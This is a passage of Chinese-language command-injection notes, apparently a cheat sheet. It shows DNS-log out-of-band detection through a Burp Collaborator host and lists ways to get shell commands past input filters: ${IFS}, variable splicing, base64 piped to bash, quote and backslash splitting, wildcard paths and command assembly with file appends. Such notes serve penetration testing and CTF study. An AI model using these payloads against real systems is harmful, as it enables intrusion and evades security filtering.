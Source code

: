 dnslog 检测，主要是利用dns解析域名会发起dns请求，使用dnslog平台，发起`http`，`dns`,`icmp`等网络请求，只要需要dns解析域名，那么dnslog平台就可以收到域名解析记录
```shell
nslookup 6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net
ping 6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net
curl 6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net
...
```
## 常见绕过方式
### 空格绕过

- ${IFS}
- <>(重定向符号)
```shell
cat<>test
cat<test
```

- %09(需要PHP环境)
### 黑名单绕过

- shell拼接
```shell
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```

- base64编码
```shell
echo d2hvYW1p | base64 -d | bash
```

- 单引号，双引号
```shell
c""at fl''ag.tx""t
```

- 反斜杠
```shell
c\at fl\a\g.tx\t
```

- $1
```shell
ca$1t fl$1ag.t$1xt
```
### 通配符绕过
/???会去寻找 / 目录下的三个字符长度的文件，正常情况下会寻找到/bin，然后/?[a][t]会优先匹配到/bin/cat,就成功调用了cat命令，然后后面可以使用正常的通配符匹配所需读的文件，如flag.txt文件名长度为8，使用8个?’’，此命令就会读取所有长度为8的文件。
```shell
/???/?[a][t] ????????
```
同理，我们也可以匹配/bin下的其他命令，如more，less，vi，tail等命令来查看文件，或者执行其他命令，甚至反弹shell
### 命令嵌套
```shell
echo "result:`whoami`"
echo "result:$(uname -a)"
```
### >> 文件追加绕过长度限制
```shell
[aaron@localhost Desktop]$ echo c\\>test
[aaron@localhost Desktop]$ echo at \\>>test
[aaron@localhost Desktop]$ echo f\\>>test
[aaron@localhost Desktop]$ echo lag.\\>>test
[aaron@localhost Desktop]$ echo txt>>test
[aaron@localhost Desktop]$ bash test
123
```
